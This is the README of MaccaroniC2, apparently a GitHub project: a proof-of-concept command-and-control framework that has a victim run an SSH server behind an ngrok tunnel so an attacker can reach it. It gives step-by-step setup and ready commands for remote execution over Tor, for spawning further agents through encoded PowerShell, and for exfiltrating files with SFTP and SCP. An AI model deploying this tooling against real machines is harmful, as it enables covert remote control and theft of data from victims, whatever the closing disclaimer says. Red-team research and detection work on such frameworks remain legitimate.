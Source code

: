# MaccaroniC2 



## Empowering Command & Control using AsyncSSH

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH Python library` and `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs an SSH server and establishes a tunnel to the outside.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by SSH, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient file exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, by `TOR`, to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` file acts as an SSH server with SFTP and SCP enabled, which will be run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send command to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5h://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell -e ABJe...dhYte"`
  
___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P 18499 -i id_rsa ddddd@0.tcp.ngrok.io`
  
`scp -i id_rsa source_file ddddd@0.tcp.ngrok.io:destination_path`
  
___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool**
  
